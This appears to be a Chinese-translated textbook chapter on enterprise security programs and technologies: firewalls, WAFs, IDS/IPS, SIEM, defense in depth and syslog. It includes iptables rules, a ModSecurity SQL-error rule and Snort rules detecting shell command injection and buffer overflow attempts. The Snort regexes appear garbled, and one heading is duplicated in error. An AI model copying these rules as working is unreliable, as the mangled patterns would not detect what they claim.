以一项声明“所有系统都将保持最新”的政策为例。为了更接近该政策的实施，您可能会有与桌面系统、服务器系统、网络设备以及任何嵌入式设备相关的标准。每种设备类型的要求可能不同，因此它们的标准也可能不同。桌面系统可能只需在更新发布时立即安装所有更新，并期望任何潜在停机都能快速修复，以防极少数用户桌面出现停机。
另一方面，服务器用于为客户提供服务，并可能产生收入影响。鉴于此，标准可能会不同。标准仍然专注于如何实现政策中规定的目标，可能会说明在补丁部署前需要进行质量保证流程。这些服务器系统的服务级别协议（SLA）在可接受停机时间方面可能完全不同。服务器系统的标准可能与桌面系统不同，但两者都是为了支持高级别政策（系统保持最新）而编写的。标准将定义政策中任何模糊不清的内容（“最新”是什么意思？），以使其与运营人员相关。
标准在设定政策实施要求方面仍然是高级别的。这些要求仍然需要实施。这就引出了下一个步骤。

### 程序

程序是标准的实际实施。这些指南提供了关于标准如何在非常细粒度的层面上具体实现的指导。这可以通过分步说明需要完成的工作来实现。每个标准可能有多个程序，因为实施标准可能涉及多个组织。
您可以看到，像政策中那样的高级别指导，您可能不需要经常修改。政策会定期审查，但如果政策经过充分考虑并编写良好，政策变更的时间尺度按年计算。然而，标准可能需要更频繁地更新。信息资产的变化会导致标准更新。组织内任何技术变更都可能导致标准更新。程序可能会变得更加频繁。
随着公司内部组织或职责的变动，程序将随之调整以适应。此外，一个好的程序会内置反馈循环，以便程序能够定期修订，变得更加高效。任何自动化变更都会导致程序变更。当我们从安全计划的顶层逐层向下到最底层时，结果是随着我们深入到具体的实施和管理步骤，更新频率会越来越高。

### 准则

在查看安全计划时，您可能不会遇到准则。准则不是标准，因为它们可能不是要求。相反，它们是关于如何实施政策的建议。准则可能会提供有关最佳实践的信息，希望这些最佳实践能够被遵循。


## 安全技术

无论如何，安全程序都需要某种技术来实现。企业内可能使用的技术解决方案数量还在不断增长。保护企业的最佳方式已不再是仅仅在网络前部署一道防火墙就自以为安全，即使那曾经被认为是现实情况。今天，攻击向量已经与十年前大不相同。当今的技术解决方案是多层的，并非完全专注于预防。

当今的假设是，如果期望能够击退100%的攻击，那么预防是不可能的。因此，检测是必不可少的。即使是检测解决方案，也是多层的，因为进入网络的入口点众多。由于检测是一种被动工作，需要随后进行主动工作。这可以是事件响应，而事件响应可能需要自动收集证据。所有这些都可能需要不同的技术解决方案。

## 防火墙

防火墙是网络中的一种传统安全设备。不过，仅仅说部署了防火墙，并不能真正解释发生了什么，因为网络协议栈中存在多种类型的防火墙。从原始含义来看，防火墙是一堵用于将火灾限制在特定区域内的墙。你会安装防火墙，以便将火灾限制在建筑物的某些区域内。汽车中的防火墙也是同样的道理。考虑到引擎舱内燃料、氧气和电力的混合物，它是可燃的。汽车制造商会安装防火墙，以便控制可能发生的火灾，防止其蔓延到乘客舱。这个术语在20世纪80年代末被引入，用于指代当时用于保护网络的新兴技术。

### 数据包过滤器

在最基本的层面上，防火墙就是一个数据包过滤器。许多设备都提供过滤数据包的功能，有时是通过访问控制列表来实现的。路由器和交换机通常具有执行数据包过滤的功能。这种数据包过滤有时也会在访问控制列表中实现。数据包过滤器根据协议、端口和地址来决定数据包的去留。端口和地址可以基于源和目标两方面进行过滤。

数据包可以被丢弃，这意味着它们不会被转发到目标，也不会向发送源系统发送任何响应消息。它们也可以被拒绝，这意味着它们不会被发送到目标，但拒绝设备会向发送方发送一个 Internet Control Message Protocol（ICMP）错误消息，指示目标不可达。这不仅是一种礼貌的做法，因为丢弃会导致重传，而且从协议角度来看，这通常也被认为是正确的做法。然而，在系统安全方面，丢弃消息可能更有意义。如果消息只是被丢弃，发送系统就不清楚发生了什么。目标系统实际上处于一个黑洞中。

当然，数据包也可以被接受。这可以基于规则来完成，也可能是策略。数据包过滤器可能有一个控制过滤器行为的策略。这意味着有一个适用于所有内容的概括性规则，除非应用了例外。默认拒绝策略是实现数据包过滤器最安全的方式，它会丢弃所有未明确允许通过的内容。你也可以有默认接受策略，这意味着一切都会被允许通过，除非有内容被明确阻止。

如果你运行 Linux 系统，可能会接触到数据包过滤器。虽然大多数 Linux 发行版中包含的主机防火墙具有其他功能，但它也可以充当基本数据包过滤器。你可以使用 Linux 内核中的 iptables 防火墙为不同的链设置策略。例如，以下几行展示了运行 iptables 来在 INPUT、OUTPUT 和 FORWARD 链上设置默认拒绝策略，这些链是应用于特定消息流的规则集合。

### iptables 策略设置

```
iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD DROP
```

数据包过滤的功能非常基础。虽然这些数据包过滤器对于入站流量，甚至是防止内部用户访问特定端口或 IP 地址可能很有效，但对于更复杂的过滤（例如，允许入站流量作为源自网络内部的消息的响应）则不太适用。为此，我们需要跟踪那些出站连接，因此我们需要的不仅仅是一个数据包过滤器。

### 有状态过滤

在最初开发数据包过滤器不久之后，有状态防火墙的开发也随之而来。第一个有状态防火墙在20世纪80年代末开发出来，与数据包过滤器一样。这些是我们应该非常熟悉的防火墙类型，因为到目前为止它们已经存在了大约三十年。不过，这并不意味着这些有状态过滤器一直在使用。

有状态防火墙会跟踪消息的状态。这意味着防火墙必须有一个状态表，以便了解所有通过它的流量流。对于传输控制协议（TCP）来说，理论上更容易，因为标志位会讲述流量流状态的故事。仅开启 SYN 标志的消息是一个 NEW 连接。它会保持此状态，直到三次握手完成。此时，流的状态变为 ESTABLISHED。在某些情况下，你可能会有 RELATED 的消息流。例如，文件传输协议（FTP）有时会从内部向外部发起连接，即从服务器到客户端。在这种情况下，用于传输文件的服务器到客户端的连接与从客户端到服务器的控制连接相关。

即使是 TCP，标志位也讲不完整个故事。毕竟，如果防火墙仅通过检查标志位来判断通信状态，那么设置正确标志位的消息就很容易通过。用户数据报协议（UDP）本身没有固有状态。这使得无法通过查看任何标志位或头部来推断状态。不过，有状态防火墙不仅仅查看标志位或头部。它们会跟踪所有的通信流，因此不依赖于协议。它们观察进出的消息，并连同其方向性一起记录下来，以确定状态是什么。这意味着防火墙知道哪一端是客户端，哪一端是服务器。

当你拥有一个有状态防火墙时，你不仅可以根据端口和地址做出决策，还可以加入连接状态。例如，你可以在下面的代码清单中看到一对 iptables 规则，它们允许所有 NEW 或 ESTABLISHED 状态的连接进入 22 端口（即安全外壳协议 SSH 端口）。此外，已建立的连接可以通过接口 eth0 发出。在默认拒绝策略下，新连接不会被允许通过该接口发出。

### iptables 状态规则

```
iptables -A INPUT -i eth0 -p tcp --dport 22 -m state --state \
NEW,ESTABLISHED -j ACCEPT
iptables -A OUTPUT -o eth0 -p tcp --sport 22 -m state --state ESTABLISHED \
-j ACCEPT
```

这使我们在决定允许或拒绝哪些数据包进入网络方面能力更进一步。虽然这些能力看起来可能并不多，但它们为阻止不法分子提供了巨大的潜力。

### 深度数据包检测

在防火墙方面，最大的问题之一是它们会允许已知服务通过。防火墙会允许指向 Web 服务器的连接。这意味着针对 Web 服务器的攻击流量就会被直接放行通过防火墙。利用应用程序本身进行攻击的流量，会像任何其他客户端一样建立连接。从数据包过滤和有状态过滤的角度来看，这些消息都会被允许通过。正因为如此，我们需要深入挖掘。仅查看协议头部是不够的，因为头部中的一切看起来都正确且合法。我们需要开始查看协议栈的更高层。

深度数据包检测（DPI）防火墙会超越头部，查看数据包的有效载荷。通过这种方法，更容易识别恶意软件和其他入站攻击。DPI 防火墙需要在数据包中查找签名，以确定某物是否会具有恶意，从而阻止流量进入网络。为了做到这一点，防火墙在做出任何判断之前必须解析整个消息。这意味着它至少需要整个数据包，即 IP 层的任何分片都必须到达并被重新组装。在某些情况下，它可能需要整个数据流，无论是 UDP 还是 TCP。这当然意味着消息到达时会有少量延迟。


分组过滤器和有状态防火墙不需要重新组装任何内容，假设整个头部已到达。任何没有完整的IP和TCP/UDP头部集合的消息很可能本身就是个问题，因为这远低于100字节。在100字节以下对消息进行分片可能是恶意流量的结果，试图欺骗防火墙或其他安全解决方案。它们属于同一类。不过，仅查看头部是有局限性的，尤其是当今许多攻击都来自高层协议。DPI防火墙提供了检查这些高层协议的能力。

不过，需要牢记的一点是，加密流量无法被检查。防火墙没有解密消息以查看其内容的密钥。防火墙方面的任何中间人加密方法都违反了大多数加密解决方案和用户的端到端预期。当然，头部没有被加密。如果加密了，没有任何中间设备能确定任何内容要去哪里。这意味着分组过滤器和有状态防火墙不受加密影响。不过，DPI防火墙会受影响。这意味着随着所有基于Web的连接转向加密，DPI防火墙对保护Web服务器帮助不大。

## 应用层防火墙

除了DPI防火墙之外，还有应用层防火墙。这些防火墙同样会检查数据包，但通常特定于某个特定协议。例如，在IP语音（VoIP）网络中，可以使用一种称为会话边界控制器（SBC）的设备。这是一种理解VoIP协议（通常是H.323或会话初始化协议（SIP））的设备。因此，它不仅可以判断消息的有效性，还可以打开动态小孔以允许实时传输协议（RTP）媒体消息通过，因为它们会使用不同于信令消息的端口和协议。

SBC就是应用层防火墙的一个示例，因为它具有对允许流量通过进行决策的能力。它根据对应用层协议及该协议常见状态流的理解来做出这些决策。

另一种常见的应用层防火墙是Web应用程序防火墙（WAF）。WAF使用一组规则来检测和阻止请求和响应。鉴于基于Web的攻击数量众多，跟进这些规则可能具有挑战性。虽然有几种商业WAF，但还有ModSecurity，这是一个开源模块，可与Apache Web服务器一起使用。规则可能会变得复杂，您可以在以下代码清单中看到一个示例。

### mod-security 规则

```
SecRule RESPONSE_BODY "@rx (?i)(?:supplied argument is not a valid
MySQL|Column count doesn't match value count at row|mysql_fetch_array(\)|on
MySQL result index|You have an error in your SQL syntax;|You have an error in
your SQL syntax near|MySQL server version for the right syntax to
use|\[MySQL\]\\[ODBC\]Column count doesn't match Table '\['|'+' doesn't
exist|SQL syntax.*MySQL|Warning.*mysql.*_.*|valid MySQL result|MySqlClient\.)"
\
"capture,\
setvar:'tx.msg=%{rule.msg}',\
setvar:tx.outbound_anomaly_score=%{tx.critical_anomaly_score}),\
setvar:tx.sql_injection_score=%{tx.critical_anomaly_score},\\
setvar:tx.anomaly_score=%{tx.critical_anomaly_score},\\
setvar:tx:%{rule.id}-OWASP_CRS/LEAKAGE/ERRORS-%{matched_var_name}=%{tx.0}"
```

您看到的规则会在响应体中查找@rx之后找到的消息。这表明接下来的是一个正则表达式。正则表达式描述了规则试图匹配的消息。如果规则匹配，由于capture操作，正则表达式匹配结果将被放入事务变量集合中。还会有多个变量被放入事务变量集合中。

除了捕获可供日志记录、以后引用或用于警报的信息之外，ModSecurity还可以将阻止作为一种操作。这将防止消息越过WAF。这意味着WAF位于受保护的Web服务器前面。有时，像ModSecurity这样的WAF会作为反向代理实现在网络边缘，因此客户端将消息发送到反向代理，由反向代理代表服务器处理消息，在解析潜在的恶意请求后再将其转发到实际的Web服务器。响应也会经过反向代理。

这些只是应用层防火墙的几个示例。它们也可能被称为应用层网关。任何可以根据应用层协议中正在发生的情况做出决策，并具有丢弃消息的能力（无论应用层协议是什么）的设备，都可以被视为应用层防火墙。

## 统一威胁管理

仅靠防火墙有时是不够的。即使在应用层防火墙的情况下，您仍然需要保护用户。用户通常是网络中最脆弱的环节，并且经常成为社会工程学和恶意软件攻击的目标。统一威胁管理（UTM）设备是将许多安全功能整合到单个系统中的设备，该系统可放置在网络的某个点。这种UTM将取代防火墙、入侵检测和入侵防护设备，并提供防病毒保护。

这种方法也有缺点。您现在在网络中有一个处理所有安全性的单点。如果该设备因任何原因发生故障，您就没有后备措施了。例如，如果您的防火墙发生故障，您仍然会有入侵检测系统来捕获可能通过的任何内容。使用UTM时，您只有一个位置，它需要始终正常工作，并且始终正确配置。

## 入侵检测系统

您可以找到两种不同类型的入侵检测系统（IDS）。第一种是主机式IDS。主机式IDS监视本地系统上的活动，例如对关键系统文件的更改。它还可能监视日志文件或审计其他系统行为。主机式IDS的一个挑战是，一旦攻击者处于触发主机式IDS的位置，他们就已经在系统上了，这意味着他们可能意识到IDS已就位，并相应制定计划。

第二种是网络IDS。虽然防火墙有能力在网络流中阻止或允许数据包，但网络IDS可以采用一些相同类型的规则并生成日志消息。入侵检测系统的规则通常可以基于网络协议栈中的任何层。只要您能为要记录或警报的消息创建某种标识，就可以为IDS编写规则。与防火墙一样，有大量商业选择可用。也有一些开源选项，其中最知名的是Snort，目前由思科拥有，但仍免费提供程序访问权限和一些社区规则。

网络IDS监视通过网络接口的所有网络流量。这意味着部署位置很重要。根据所使用的IDS产品，可能有不同的部署方法。其中一种方法是将IDS并联（而非串联）部署在网络的最外围，以便可以观察所有进入的网络流量。图3.3展示了使用这种方法的简化图，IDS位于防火墙后面，但不直接位于流量路径中。流量被导向IDS，以便它可以在不妨碍或导致网络故障的情况下进行检测。另一种方法是在网络的不同部分部署传感器，这样就没有单个设备。如果您还想查看潜在的内部攻击，这种方法可能特别有用。

### 图3.3 显示IDS部署的网络图




多年前，IDS设备曾面临跟不上网络所有流量的问题，因为IDS设备必须查看每个数据包，并将其与配置的规则进行比较。情况已不再如此，因为处理能力大幅提升，系统总线吞吐量也有所增加。即便如此，在网络不同部位使用多个传感器，可以分担处理负载。

我们可以查看Snort规则，了解IDS能做什么以及其工作原理。与WAF规则一样，理解如何编写规则需要一定的时间和精力，尤其是当需要检测的内容是数据包中的内容时。在下面的代码清单中，你将看到两条Snort规则，演示Snort能做的一些事情。

## Snort Rules

```
alert tcp $EXTERNAL_NET any -> $SQL_SERVERS 7210 (msg:"SQL SAP MaxDB shell command injection attempt"; flow:to_server,established; content:"exec_sdbinfo"; fast_pattern:only; pcre:"/exec_sdbinfo\\s+[|x26|xb7c|x3e|x3c|x3c|i"/i; metadata:policy balanced-ips drop, policy max-detect-ips drop, policy security-ips drop; reference:bugtraq,27206; reference:cve,2008-0244; classtype:attempted-admin; sid:13356; rev:7;)
alert tcp $EXTERNAL_NET any -> $HOME_NET 21064 (msg:"SQL Ingres Database uuid_from_char buffer overflow attempt"; flow:to_server,established; content:"uuid_from_char"; fast_pattern:only; pcre:"/"./uuid_from_char\\s*?\\(\\s*?[[x22|x27][\^x22\nx27][37]/\smi"; metadata:policy balanced-ips drop, policy max-detect-ips drop, policy security-ips drop; reference:bugtraq,24585; reference:cve,2007-3338; reference:url,supportconnectw.ca.com/public/ca_common_docs/ingresvuln_letter.asp; reference:url,www.ngssoft.com/advisories/high-risk-vulnerability-in-ingres-stack-overflow; classtype:attempted-admin; sid:12027; rev:11;)
```

Snort规则以动作开头。你可以使用alert，如这两条规则所示，它会向配置的输出生成警报消息。不过，你还可以使用log、drop、reject、pass以及一些其他动作。其中一些功能超出了传统IDS功能，但它们是Snort在规则配置中可以采取的动作。在动作之后，你需要配置报头的详细信息。这包括你想要发出警报的协议。在本例中，我们对TCP消息发出警报，因此需要指定源地址和目标地址，以及源端口和目标端口。->（箭头）表示流的方向。

括号内是规则的详细信息。首先是日志中使用的消息。之后，你将找到关于流的详细信息。Snort知道哪一侧是客户端，哪一侧是服务器，因此你可以指示消息应来自哪一侧。虽然你已指定源端口和目标端口，但这需要更具体的说明。接下来是重要部分，我们要在其中指定数据包应包含什么内容才能匹配此规则。你还会看到元数据，例如引用信息。这些引用信息可能包含关于要发出警报的漏洞的详细信息。最后，规则将具有一个Snort识别号（SID）。虽然这是可配置的，但关于用户定义规则应使用哪些数字存在约定。最高999999的值保留给随Snort发行版提供的规则使用。你还可以指定修订号，以便对所使用的SID进行某种版本控制。

通常，对于IDS，你会使用alert或log，因为IDS的意图仅是检测事件。alert假设有人正在关注IDS发出的内容，并根据警报及后续调查采取行动。不过，也存在你希望IDS本身对其发现的内容采取行动的情况。

## Intrusion Prevention Systems

入侵防御系统（IPS）在IDS的基础上更进一步。如前所述，Snort具有包括drop和reject在内的动作。这些是超出Snort自身能力范围的动作。Snort监控网络流量并对其进行解析，以识别包含可能恶意内容的数据包，如规则所识别。要让Snort作为IPS运行，它必须放置在内联模式，也就是说，它必须是进出网络流量路径上的设备。任何IPS都必须进行类似配置，才能拦截任何网络流量。图3.4显示了IPS潜在位置的简化网络图。

### FIGURE 3.4 Network diagram showing IPS placement



将IPS置于流量路径中，它可以像防火墙一样，对进入网络的数据包做出是否接受或拒绝的决定。IPS与防火墙的区别在于，IPS上的“防火墙规则”是动态的。IPS不会使用大面积的、拦截整个IP地址的笼统规则，而是基于数据包的内容做出决定。该规则仅在数据包通过IPS期间有效——基本上是一次性的。该规则可能仅用于处理那个数据包，也可能使用一段较长时间，但规则本质上是动态且临时的。同样，在内联模式下，IPS可以选择丢弃消息，即直接丢弃，也可以配合适当消息进行拒绝。例如，这可能是一个ICMP目标不可达消息。

即使在潜在攻击被拦截的IPS中，日志和警报也应予以调查。并非每个匹配IDS/IPS规则的消息都是合法攻击。在运行带有社区规则的基本Snort安装的几种情况下，我遇到过指示错误SIP消息的警报，但实际上流量是通过80端口的HTTP，而非SIP。规则并非绝对可靠，因此规则可能会拦截合法流量，如果你运行的是IPS，最终可能会阻止来自客户或合作伙伴的消息。

IDS或IPS面临的挑战之一是它们可能产生的日志量。这取决于你拥有的规则数量、规则编写的质量、进入网络的流量量以及传感器的位置。警报是一个重大挑战，可能需要大量工作来微调规则，以便你的分析人员或查看警报的任何人不会变得“屏幕盲”，即他们对反复出现的相同警报习以为常，最终可能会错过一个合法的警报——就像在白雪/噪声田野中寻找白兔一样。幸运的是，有解决方案可以帮助解决这个问题。

## Security Information and Event Management

从系统管理和安全角度来看，一种良好做法是系统日志。日志有助于诊断系统和网络中的问题，也可在调查潜在问题时提供帮助。取证调查人员和事件响应人员会发现它们非常宝贵。如果你曾不得不排查没有任何日志可查的故障系统或应用程序，你就会明白日志的价值。但是，将所有日志记录调至最大也不是答案。日志会占用磁盘空间，尽管如今磁盘空间通常价格低廉。它们也会占用处理能力，而且日志记录过多反而会使问题更难找到，因为你需要在海量文本中查找一个能帮助你的条目。毕竟，你并不总是知道要搜索什么文本。

这时，一个良好的日志管理系统可以提供帮助。在安全事件的情况下，这些日志管理系统还可以包含搜索和关联工具。虽然有许多日志管理解决方案，但许多组织正在转向一种称为安全信息和事件管理（SIEM）的东西。然而，SIEM软件不仅仅是日志管理解决方案。你不能只是把所有日志都倒入其中就了事。SIEM软件用于关联和分析安全警报。它还将为你提供更好地可视化数据的能力。例如，在图3.5中，你可以看到DNS


Kibana 中的响应代码，Kibana 是 Elastic Stack（Elasticsearch、Logstash 和 Kibana）的一部分，以前称为 ELK Stack。

### 图 3.5 面向 Elastic Stack 的 Kibana 界面



Elastic Stack 是一个很好的平台，用于从多个来源摄取大量数据。这可以包括日志数据以及数据包数据。您在图 3.5 中看到的是该 Elastic Stack 安装汇报系统所见的 DNS 响应列表。与其他 SIEM 产品一样，Elastic Stack 提供了大量搜索功能。它还将基于提供给它的数据提供大量可视化选项。

安全运营中心（SOC）通常围绕监控系统构建，包括可用于关联多个不同来源数据的 SIEM 系统。使用 SIEM 的优势在于能够汇总大量数据，从而更全面地了解网络中发生的情况。这将帮助您发现趋势和更大的攻击。孤立地看待攻击可能会让您只关注正在查看的那一次攻击，而忽略还有其他几个系统也正在受到攻击。单个系统不一定能为您提供入口点。

拥有数据点有助于确保实施正确的控制措施来保护信息资产。然而，数据只是一个起点。您仍然需要能够解读数据，并理解该如何处理现有数据。策略很重要。这可以包括政策和程序以及技术规划。您还可能希望制定一种关于如何实施所有现有内容的理念。

## 做好准备

技术固然很好。然而，仅靠技术本身不足以保护网络。有句老话说，唯一安全的计算机（及由此延伸的网络）是所有电缆都被切断、理想情况下填满水泥并沉入海底的计算机。如果你想用计算机做任何事情，你就让自己面临该计算机被感染或被攻破的潜在风险。安全来自于规划和准备。为了做好准备，你需要确保已经考虑过你行为的影响，以及你实施现有任何解决方案的方式。

实施安全解决方案需要了解你的资源所在——这不仅仅是信息资产。也是你的技术资产。或许最重要的是，是你的人力资产。仅靠技术是不够的。你可以通过纵深防御方法来处理安全设计和架构的技术方面。然而，纵广防御方法需要人力。

如前所述，在响应安全事件时，拥有日志非常重要。虽然拥有 SIEM 解决方案很好，但即使你有一个，你也需要数据来供给它。你可以通过确保在系统上进行日志记录来获取这些数据。此外，拥有审计信息可以有助于形成活动踪迹。

## 纵深防御

纵深防御是一种分层的网络设计方法。每当我听到纵深防御这个术语时，就会想到《魔戒》一书中的米那斯提力斯。米那斯提力斯是一座有七道同心城墙的城市。第七道城墙内是城堡。如果入侵者设法突破其中一道城墙，人们就会退入下一道环形区域，直到必要时进入最后一道城墙内。希望入侵者在尝试穿越七道巨大的城墙时要么放弃，要么被击败。然而，正如在《王者归来》一书中所发现的，即使七道城墙也不总能足以保卫这座城市。

提到米那斯提力斯之所以让人联想起来，那是因为（以防不清楚）它是纵深防御的一个例子。使用纵深防御方法，你会设计一个分层网络，配备多个安全网关来控制各层之间的访问。纵深防御方法的一个目标是延迟攻击者或对手。目标不一定是防止对手进入，而是造成延迟。理想情况下，还要沿途创建证据。当采用纵深防御策略时，当对手穿过网络的各层时，他们会留下痕迹。这些痕迹可以由运维人员检测到。希望是检测发生，从而在对手触及任何真正敏感信息之前关闭攻击。

纵深防御是一个已被改编为其他用途的军事概念。其中之一当然是信息安全。你会注意到，像多重城墙城市这样的方法所带来的一点是冗余。第二道城墙相对于第一道是冗余的。第三道相对于第二道（由此延伸也相对于第一道）是冗余的，以此类推。这不一定意味着你要到处反复放置相同的控制措施。更好的方法是在多个区域提供冗余控制措施。

首先要考虑的控制领域是物理控制。这意味着确保未经授权的人无法物理访问系统。任何拥有系统物理访问权限的人都有可能登录系统——例如，可能已经有一个用户登录了，如果系统未锁定，任何人都可能成为已登录的用户。攻击者可能能够从外部驱动器启动并更改密码或创建另一个用户。如果攻击者对系统拥有物理控制权，有几种方法可以访问系统。

第二个控制领域是技术控制。这是我一直在谈论的内容——防火墙、入侵检测系统、SIEM 和其他安全技术。不过，不仅仅是这些。还可以是软件或配置控制，如密码策略，要求使用复杂密码。防病毒或其他端点保护也是技术控制。任何用于防止未经授权使用的硬件或软件都是技术控制。

最后，还有管理控制。这些是政策、标准和程序。这可能包括招聘标准、背景调查和数据处理政策等政策或实践。这些管理控制设定了组织受保护的基调，并且是必不可少的。

图 3.6 展示了纵深防御方法中某些元素可能的实现示例。您可以看到在网络入口处有一个防火墙。防火墙然后延伸出两个独立的网络。第一个是非军事区，即不受信任但仍属于企业网络一部分的服务器所在的地方。您可能会将面向 Internet 的服务器（如 Web 或电子邮件服务器）放在此处。防火墙的另一侧是您可能会放置内部服务器（如 Active Directory 或文件服务器）的地方。这种网络分段通常是纵深防御策略的一部分。

### 图 3.6 纵深防御网络设计



第二个防火墙保护内部网络免受服务器网络的影响，反之亦然。最后，我们部署了入侵检测和端点保护。该图中未显示的是企业中实施的程序和政策。我们不仅有攻击者必须穿越的几个网络层级，还有不同的检测和保护点。当然，这不仅仅涉及网络设计、技术以及政策和程序。

## 纵深防御

过去几年里，关于纵深防御与纵广防御各自优势的争论一直存在。纵深防御是否足够，还是组织需要实施纵广防御？当然，纵广防御的挑战在于它很少被很好地解释。如果你搜索关于纵广防御的解释，你会发现大量关于纵广防御为何是一件好事，以及为什么仅靠纵深防御本身不足以作为组织实施安全解决方案的现代策略的理由。问题是，当你能找到纵广防御的定义时，它非常模糊。

多年来，我对纵广防御的理解是，它是纵深防御所缺失的所有“周围”部分。纵深防御没有考虑到所有人为因素。纵广防御旨在从风险角度对组织进行更全面的审视。组织应评估风险，并系统地审视如何减轻任何风险，同时考虑组织预计将面临的威胁。为了充分评估风险并全面审视潜在解决方案，组织需要拥有数据。

或许，思考这一点的一种方式是：纵深防御实际上是关于预防。然而，预防并不完全现实。这一点在当今时代尤其正确，那时旧的针对暴露在外界的监听服务中的漏洞进行利用的技术攻击不再是首选攻击途径。相反，攻击用户更有成效，因此社交工程攻击和大量恶意软件更为常见。因此，安全的最佳方法不是主要关注预防，而是假设你最终会被攻破并做好响应准备。

为了做好响应准备，你需要大量检测和历史数据。此外，你需要一个成员清楚自己角色的事件响应团队。你还需要跨不同团队进行大量沟通。安全团队的成员不一定总是最适合响应事件的人，尤其是因为他们可能并不总是意识到这些事件。这意味着打破某些传统的部门壁垒是必要的。

信息技术（IT）领域日益增长的趋势是开发团队与运维团队之间的协作，通常称为 DevOps。更具前瞻性的公司还确保在过程中融合安全。最终得到的东西通常被称为 DevSecOps。这些方法不仅关注团队合作及必要的相关沟通，还关注自动化。自动化构建、测试和部署消除了大量人为因素，有助于避免配置错误或其他错误。

你可以看出，纵广防御可能是一个非常复杂的概念，一旦你开始思考如何在组织中引入安全讨论，可能难以完全实施。然而，归根结底，纵广防御的目标是让组织不仅能更好地保护自己，还能响应攻击——同时，在发生泄露时以尽快恢复业务运营为目标进行响应。


## 日志记录

在此过程中，在多个地方出现过一个想法，即日志记录。这不仅是系统日志记录，也是应用程序日志记录。不仅如此，它不仅仅是桌面或服务器等系统上的日志记录，还包括路由器和交换机等网络设备，当然还有防火墙上的日志记录。即使在网络中运行了 IDS 的情况下，你也不一定总是想要发出警报，因为可能有一些你不觉得有必要跟进的事件。但是，一旦发生安全漏洞，了解事件发生的事实可能很有用。拥有历史数据的重要性无论如何强调都不为过。

许多系统，包括类 Unix 系统以及网络设备，都支持 syslog 协议。这是一种日志记录协议，最初是作为 Simple Mail Transfer Protocol (SMTP) 服务器 sendmail 的日志机制而出现的。多年来，自 20 世纪 80 年代 syslog 首次在 sendmail 中实现以来，它已成为类 Unix 系统上的标准日志解决方案，该协议已在 RFC 3164 中记录，后来在 RFC 5424 中标准化。Syslog 不仅在消息的创建和读取中具有易于理解的语法，还可以用于远程日志记录和本地日志记录。

由于 syslog 可以支持远程日志记录，它可以用作集中式日志主机。这一事实在准备事件响应时也许尤其重要。清除痕迹的常见方法是清除日志。任何获得系统访问权限的攻击者都可能擦除本地日志，但如果日志正在从系统流出，它们将被保留以供日后使用，除非攻击者能够攻破集中式日志主机。

你可以在下面的代码清单中看到 syslog 消息的示例。每条消息都以日期开头，后跟来源主机名。然后是创建日志的进程，包括进程识别号。最后，显示进程生成的消息。

### syslog 消息

```
Jun 26 10:27:16 boardinghouse kernel: [923361.001444] vmbr0: port 3(tap210i0) entered forwarding state
Jun 26 10:27:17 boardinghouse pvdaemon[10864]: <root@pam> end task
UPID:boardinghouse:000034F1:0580EE23:5B326963:qmstart:210:root@pam: OK
Jun 26 10:27:42 boardinghouse pvdaemon[9338]: <root@pam> starting task
UPID:boardinghouse:00003552:0580F885:5B32697E:vncproxy:210:root@pam:
Jun 26 10:32:09 boardinghouse pvdaemon[9338]: <root@pam> end task
UPID:boardinghouse:00003552:0580F885:5B32697E:vncproxy:210:root@pam: OK
```

